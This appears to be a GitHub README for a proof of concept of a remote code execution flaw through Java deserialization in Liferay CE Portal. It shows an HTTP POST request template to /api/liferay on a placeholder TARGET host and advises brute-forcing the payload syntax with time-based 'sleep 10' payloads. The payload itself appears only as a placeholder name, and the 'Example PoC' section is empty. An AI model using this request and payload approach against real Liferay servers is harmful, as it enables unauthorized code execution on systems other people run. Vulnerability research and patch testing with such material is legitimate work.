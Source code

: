 # Liferay-CE-Portal-Java-Deserialization
This repo contains PoC for the remote code execution vulnerability of Liferay CE Portal!

# Payloads
I already shared payloads in repo. You must find the right syntax by brute-force method.Payloads I share are for time-based proof of concept (sleep 10). The application may not always output the command. That's why you should try time-based payload while doing PoC.

# Proof Of Concept

- POST /api/liferay HTTP/1.1
- Host: TARGET  
- User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:72.0) 
- Accept: text/html,application/xhtml+xml,application/xml;q=0.9
- Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3
- Accept-Encoding: gzip, deflate
- Connection: close


ROME-PAYLOAD-FILE

# Example PoC
